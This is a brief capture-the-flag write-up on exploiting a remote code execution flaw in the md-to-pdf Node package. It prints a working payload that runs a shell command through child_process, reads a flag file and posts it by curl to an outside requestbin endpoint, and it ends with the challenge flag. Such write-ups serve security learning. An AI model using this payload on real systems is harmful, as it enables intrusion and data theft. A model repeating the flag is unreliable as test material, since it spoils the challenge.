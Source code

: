 ## Skills: JavaScript command RCE

In NodeJS applications, the list of packages used is listed in `package.json`. With [Snyk](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) we can confirm a *remote code execution* (RCE) vulnerability with the `md-to-pdf` package.

Pre-CTF guide: in bash script, the output from one command can be piped (transferred) to another with the | symbol, alternatively you may be able to copy the flag file to the static folder and view it there.

Final payload:
```
---js
`${require("child_process").execSync("cat ../flag.txt | curl -X POST --data-binary @- https://requestbin.io/********")}`
---RCE OKAY
```

**Flag: HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**
